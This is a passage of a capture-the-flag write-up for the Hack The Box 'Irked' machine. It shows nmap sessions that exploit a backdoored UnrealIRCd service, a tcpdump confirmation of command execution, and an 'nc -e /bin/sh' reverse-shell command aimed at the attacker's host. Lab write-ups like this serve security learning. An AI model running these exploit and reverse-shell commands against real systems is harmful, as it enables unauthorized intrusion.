 ```shell
matt@kali:~/htb/irked$ nmap -p6667 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='ping -c 2 10.10.14.17' 10.10.10.117
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-03 10:24 CDT
Nmap scan report for 10.10.10.117
Host is up (0.13s latency).
PORT STATE SERVICE
6667/tcp closed irc
Nmap done: 1 IP address (1 host up) scanned in 0.85 seconds
matt@kali:~/htb/irked$ nmap -p8067 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='ping -c 2 10.10.14.17' 10.10.10.117
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-03 10:25 CDT
Nmap scan report for 10.10.10.117
Host is up (0.18s latency).
PORT STATE SERVICE
8067/tcp open infi-async
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277
Nmap done: 1 IP address (1 host up) scanned in 19.97 seconds
matt@kali:~/htb/irked$ nmap -p65534 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='ping -c 2 10.10.14.17' 10.10.10.117
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-03 10:25 CDT
Nmap scan report for 10.10.10.117
Host is up (0.17s latency).
PORT STATE SERVICE
65534/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 0.79 seconds
matt@kali:~/htb/irked$ 
```

```shell
matt@kali:~/htb/irked$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
10:25:28.002204 IP 10.10.10.117 > 10.10.14.17: ICMP echo request, id 1071, seq 1, length 64
10:25:28.002280 IP 10.10.14.17 > 10.10.10.117: ICMP echo reply, id 1071, seq 1, length 64
10:25:29.036050 IP 10.10.10.117 > 10.10.14.17: ICMP echo request, id 1071, seq 2, length 64
10:25:29.036111 IP 10.10.14.17 > 10.10.10.117: ICMP echo reply, id 1071, seq 2, length 64
^C
4 packets captured
4 packets received by filter
0 packets dropped by kernel
```

After confirming that I was able to get code execution on port 8067, I set up a netcat listener and got a low shell:

```shell
matt@kali:~/htb/irked$ nmap -p8067 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='nc -e /bin/sh 10.10.14.17 80' 10.10.10.117
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-03 10:30 CDT
Nmap scan report for 10.10.10.117
Host is up (0.19s latency).
PORT STATE SERVICE
8067/tcp open infi-async
|_irc-unrealircd-backdoor: Server closed connection, possibly due to too many reconnects. Try again with argument irc-unrealircd-backdoor.wait set to 100 (or higher if you get this message again).
Nmap done: 1 IP address (1 host up) scanned in 23.52 seconds
```
